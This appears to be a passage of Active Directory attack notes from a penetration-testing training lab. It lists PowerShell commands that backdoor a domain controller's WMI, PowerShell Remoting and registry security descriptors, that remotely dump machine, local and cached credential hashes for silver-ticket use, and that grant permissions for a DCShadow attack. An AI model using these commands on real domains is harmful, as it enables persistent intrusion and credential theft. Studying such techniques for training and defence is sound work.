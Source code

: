 Give user WMI access to a machine, using `Set-RemoteWMI.ps1` cmdlet. Can be run to persist access to e.g. DCs.

```
Set-RemoteWMI -UserName student1 -ComputerName dcorp-dc.dollarcorp.moneycorp.local -namespace 'root\cimv2' 
```

For execution, see ‘Command execution with WMI’ above.

### Modifying security descriptors for PowerShell Remoting access

Give user PowerShell Remoting access to a machine, using `Set-RemotePSRemoting.ps1` cmdlet. Can be run to persist access to e.g. DCs.

```
Set-RemotePSRemoting -UserName student1 -ComputerName dcorp-dc.dollarcorp.moneycorp.local 
```

For execution, see ‘Command execution with PowerShell Remoting’ above.

### Modifying DC registry security descriptors for remote hash retrieval using DAMP

Using [DAMP toolkit](https://github.com/HarmJ0y/DAMP), we can backdoor the DC registry to give us access on the `SAM`, `SYSTEM`, and `SECURITY` registry hives. This allows us to remotely dump DC secrets (hashes).

We add the backdoor using the `Add-RemoteRegBackdoor.ps1` cmdlet from DAMP.

```
Add-RemoteRegBackdoor -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Trustee Student355 
```

Dump secrets remotely using the `RemoteHashRetrieval.ps1` cmdlet from DAMP (run as ‘Trustee’ user).

```
# Get machine account hash for silver ticket attack
Get-RemoteMachineAccountHash -ComputerName dcorp-dc

# Get local account hashes
Get-RemoteLocalAccountHash -ComputerName dcorp-dc

# Get cached credentials (if any)
Get-RemoteCachedCredential -ComputerName dcorp-dc 
```

### DCShadow

DCShadow is an attack that masks certain actions by temporarily imitating a Domain Controller. If you have Domain Admin or Enterprise Admin privileges in a root domain, it can be used for forest-level persistence.

Optionally, as Domain Admin, give a chosen user the privileges required for the DCShadow attack (uses `Set-DCShadowPermissions.ps1` cmdlet).

```
Set-DCShadowPermissions -FakeDC mcorp-student35 -SamAccountName root355user -Username student355 -Verbose 
```
